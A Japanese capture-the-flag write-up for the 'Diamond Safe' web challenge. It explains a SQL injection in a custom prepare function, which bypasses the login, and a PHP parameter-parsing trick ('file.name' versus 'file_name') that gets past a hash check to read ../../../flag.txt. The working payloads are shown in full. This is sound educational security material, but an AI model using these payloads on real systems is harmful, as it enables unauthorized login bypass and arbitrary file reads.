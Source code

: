 # 問題
- [web] Diamond Safe
# [web] Diamond Safe

問題はログインの部分とフラグをとる部分に分かれる。

構成は以下の通り  
php-fpm に flag.txt がある。  

```yml
version: '3.7'

services:
  web:
      image: nginx:latest
      restart: unless-stopped
      env_file: .env
      ports:
          - "4444:80"
      volumes:
          - ./src:/var/www/html
          - ./templates:/etc/nginx/templates
      depends_on: 
        - db
        - php-fpm
      networks:
        - phpnet


  php-fpm:
      build: ./fpm
      restart: unless-stopped
      env_file: .env
      volumes:
          - ./src:/var/www/html
          - ./files:/var/www/files
          - ./flag.txt:/flag.txt:ro
      depends_on: 
        - db
      networks:
        - phpnet


  db:
    image: mysql:5.7
    env_file: .env
    restart: unless-stopped
    networks:
        - phpnet

networks:
  phpnet:
    name: phpnet
```

## ログイン

php-fpm のコードを見ると、ログインの部分は以下のようになっている。  
sql の部分が自前で実装されている。  
`db.prepare` は 第一引数の`%s` の数が第二引数の長さが等しい時、`%s` をクォートで囲んで、引数で置換されるようになっていた。  
> その他の処理も入っている。
```php

$query = db::prepare("SELECT * FROM `users` where password=sha1(%s)", $_POST['password']);

if (isset($_POST['name'])) {
    $query = db::prepare($query . " and name=%s", $_POST['name']);
} else {
    $query = $query . " and name='default'";
}
$query = $query . " limit 1";
echo $query;

$result = db::commit($query);


```

一回目の`$_POST['password']`が`%s`を含んでいると、その次に`db.prepare` を呼ぶと再度クォートが追加されるので任意のsql文を実行することができる。  
最終的なペイロードは以下のようになる。

`password=%s&name[]=) or 1=1; #&name[]=aa` 


## フラグ

`download.php`を見ると以下のような部分があるので、任意のファイルを読み取ることができる
```php
$file = '/var/www/files/' . $_GET['file_name'];
if (!file_exists($file)) {
    echo "file not exist";
    redirect('vault.php');
    die();
} else {
    header('Content-Description: File Transfer');
    header('Content-Type: application/octet-stream');
    header('Content-Disposition: attachment; filename="' . basename($file) . '"');
    header('Expires: 0');
    header('Cache-Control: must-revalidate');
    header('Pragma: public');
    header('Content-Length: ' . filesize($file));
    readfile($file);
    exit;
}

```

この部分が読みだされる前に`check_url` が呼び出されている。  
hash には環境変数が含まれており、それを特定するのは困難なので、それ以外の方法を考える。  

`files` 以下にあるファイルに対するハッシュ値はわかっているので、そのハッシュを使って条件を回避する。  
ここでファイルを読みだす部分は `$_GET['file_name']` の値が使われ、ハッシュ値の確認には`$params['file_name']`が使われている。  
この差分を利用する。  処理は以下の php を参照

```php
function check_url()
{
    // fixed bypasses with arrays in get parameters
    $query  = explode('&', $_SERVER['QUERY_STRING']);
    $params = array();
    foreach ($query as $param) {
        // prevent notice on explode() if $param has no '='
        if (strpos($param, '=') === false) {
            $param += '=';
        }
        list($name, $value) = explode('=', $param, 2);
        $params[urldecode($name)] = urldecode($value);
    }

    if (!isset($params['file_name']) or !isset($params['h'])) {
        return False;
    }

    $secret = getenv('SECURE_URL_SECRET');
    $hash = md5("{$secret}|{$params['file_name']}|{$secret}");

    if ($hash === $params['h']) {
        return True;
    }
    return False;
}
```

php の仕様で `file.name` みたいなクエリパラメータを `$_GET['file_name']`でとれる。  
さらにphp は重複するクエリパラメータの最後のものを採用する。  
>ドキュメントの下のほうに書いてあった気がするがどこか忘れたので見つけ次第追記する。

よって以下のようなリクエストをするとフラグが得られる。


`download.php?h=95f0dc5903ee9796c3503d2be76ad159&file_name=Diamond.txt&file.name=../../../flag.txt`

`flag{lul_php_challenge_1n_2021_lul}`